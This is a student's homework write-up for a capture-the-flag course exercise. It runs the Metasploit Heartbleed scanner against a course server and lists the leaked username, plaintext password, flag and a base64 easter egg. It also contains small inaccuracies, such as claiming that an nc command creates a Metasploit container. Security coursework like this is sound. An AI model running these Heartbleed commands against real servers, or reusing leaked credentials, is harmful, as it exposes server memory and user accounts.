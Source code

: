<b>I pledge on my honor that I have not given or received any unauthorized assistance on this homework or assignment. -Jacob Elspas</b>

Homework #4

Part 1: I started off by opening a Bash Terminal and making a metasploit container using the following command 
``` nc 159.89.233.47 1337``` and then running ```mfsconsole```.
The I ran ```search heartbleed``` to find the path for the heartbleed attack, and then selected it with ``` use auxiliary/scanner/ssl/openssl_heartbleed```.
Next, I set the parameters for the exploit and subsequently ran it with the following commands:
``` 
set RHOSTS 165.227.204.80
set VERBOSE true
exploit
```
This ran the exploit on the IP address 165.227.204.80, which is the IP address of the website www.briong.com. I found this by using a website where you give it a domain name and it returns it’s IP address: 

![](/img/briong-IP.PNG)

After the execution of heartbleed, I looked through the output that was returned and I found the flag, as well as a username and a password:

* username=mnthomp22
* password=pass1234
* flag=CMSC389R-{h3art_bl33d}

Lastly, I also found an easter egg in the same line : easteregg=V0FJVCBUSElTIElTTidUIEVOQ1JZUFRJT04/Pw0KQ01TQzM4OVIte2Jhc2U2NF9pc19zdGlsbF91c2VkX2Zvcl9jcnlwdDB9!

